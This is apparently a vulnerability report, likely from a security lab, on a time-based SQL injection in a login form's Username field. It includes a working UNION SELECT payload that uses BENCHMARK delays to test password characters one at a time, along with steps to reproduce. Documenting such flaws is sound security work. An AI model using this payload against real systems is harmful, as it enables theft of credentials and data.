 # Vulnerability 7: SQL Injection allows with network delays to check values from the DB (e.g a char from a password)

- Vulnerability: SQL Injection - timing attack
- Where: Field `Username` in login form 
- Impact: Allows to check a value from the DB (e.g 1st char from a password) using network delays

# Steps to reproduce

1. Insert into the field `Username`: `' UNION SELECT 1, 2, 3, 4, IF(SUBSTRING( password , 1, 1) = 'h', BENCHMARK(5000000, ENCODE('MSG', 'by 5 seconds')), null) FROM Users WHERE username= 'darfo' -- `
2. Check the time it takes to process
3. If it takes more than 3 seconds then the value is correct
4. If not, then the value is incorrect

[(PoC)](SQLvuln7.py)